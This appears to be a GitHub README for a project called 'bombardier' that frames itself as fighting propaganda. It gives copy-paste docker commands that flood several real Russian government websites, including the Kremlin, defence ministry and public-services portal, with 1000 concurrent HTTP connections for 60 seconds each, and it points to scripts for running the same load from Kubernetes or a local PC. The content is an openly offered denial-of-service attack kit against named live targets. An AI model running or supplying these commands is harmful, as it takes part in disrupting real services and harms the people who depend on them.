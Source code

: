 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
or easiest way 

docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://kremlin.ru
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://mil.ru
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://www.scrf.gov.ru
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://ach.gov.ru
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://epp.genproc.gov.ru
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://www.gosuslugi.ru


<br>
sites
https://mil.ru
<br>
http://www.scrf.gov.ru
<br>
https://ach.gov.ru
<br>
https://epp.genproc.gov.ru
<br>
https://www.gosuslugi.ru
<br>
http://kremlin.ru
